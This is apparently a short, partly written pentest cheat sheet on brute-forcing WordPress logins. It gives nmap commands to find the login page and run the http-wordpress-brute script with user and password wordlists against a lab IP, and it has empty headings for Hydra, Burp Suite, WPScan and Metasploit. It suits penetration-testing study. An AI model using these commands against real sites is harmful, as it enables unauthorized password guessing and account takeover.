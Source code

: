 # Wordpress Brute Forcing

## Nmap : Wordpress login brute force

* The nmap automatically discovers the exact login page using `nmap -p80 --script http-enum 192.168.1.17`

`nmap –sV --script http-wordpress-brute --script-args 'userdb=/root/Desktop/login.txt,passdb=/root/Desktop/pass.txt, http-wordpress-brute.hostname=domain.com,http-wordpress-brute.thread=3,brute.firstonly=true' 192.168.1.17`

## Hydra : Wordpress login brute force

## Brup Suite : Wordpress login Brute force

## WPScan : Wordpress login Brute force

## Metasploit : Wordpress loign Brute force







